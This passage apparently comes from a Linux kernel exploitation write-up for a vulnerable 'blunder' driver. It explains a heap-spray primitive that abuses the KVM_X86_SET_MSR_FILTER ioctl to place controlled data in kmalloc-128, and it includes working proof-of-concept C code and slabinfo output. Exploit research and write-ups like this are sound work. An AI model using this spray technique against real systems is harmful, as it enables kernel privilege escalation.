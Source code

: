 ### Heap spray
Regarding the heap spray, I didn't know what to use in order to reallocate the first `blunder_proc` with a fake `blunder_buffer`. I wanted some object with controlled user data and live time which would fit in kmalloc-128. I had read about using `setxattr` with FUSE as a replacement for userfaultfd, but I wanted to do some research. Looking at [references to `memdup_user`](https://elixir.bootlin.com/linux/v5.15/A/ident/memdup_user) I found [this](https://elixir.bootlin.com/linux/v5.15/source/arch/x86/kvm/x86.c#L3913), which is triggered with the KVM ioctl `KVM_X86_SET_MSR_FILTER` and allows spraying objects with controlled data and live time of size up to 1536 bytes. It can be used as follows:

```cpp
#define N_VMS 100
#define SPRAY_SIZE 128

void display_slab_info(const char* msg) {
	printf("[%s]\n", msg);
	system("bash -c \"sudo cat /proc/slabinfo | grep '^kmalloc-128'\"");
}

int main() {
	// Setup VMs
	int vm_fds[N_VMS];
	int kvm_fd = open("/dev/kvm", O_RDWR);
	for (size_t i = 0; i < N_VMS; i++) {
		vm_fds[i] = ioctl_chk(kvm_fd, KVM_CREATE_VM, 0);
	}

	// Setup spray
	void* spray = malloc(SPRAY_SIZE);
	struct kvm_msr_filter filter = {
		.flags = KVM_MSR_FILTER_DEFAULT_DENY,
	};
	for (size_t i = 0; i < KVM_MSR_FILTER_MAX_RANGES; i++) {
		filter.ranges[i] = (struct kvm_msr_filter_range) {
			.flags = KVM_MSR_FILTER_READ,
			.nmsrs = SPRAY_SIZE*8,
			.base = 0,
			.bitmap = spray,
		};
	}

	// Trigger spray
	display_slab_info("before spray");
	for (size_t i = 0; i < N_VMS; i++)
		ioctl_chk(vm_fds[i], KVM_X86_SET_MSR_FILTER, &filter);
	display_slab_info("after spray");
	for (size_t i = 0; i < N_VMS; i++)
		close(vm_fds[i]);
	display_slab_info("after releasing");
}
```
{: file="spray_poc.c" }
```console
vagrant@ubuntu-jammy:/vagrant$ ./test
[before spray]
kmalloc-128         1440   1856    128   32    1 : tunables    0    0    0 : slabdata     58     58      0
[after spray]
kmalloc-128         2976   2976    128   32    1 : tunables    0    0    0 : slabdata     93     93      0
[after releasing]
kmalloc-128         1570   2048    128   32    1 : tunables    0    0    0 : slabdata     64     64      0
```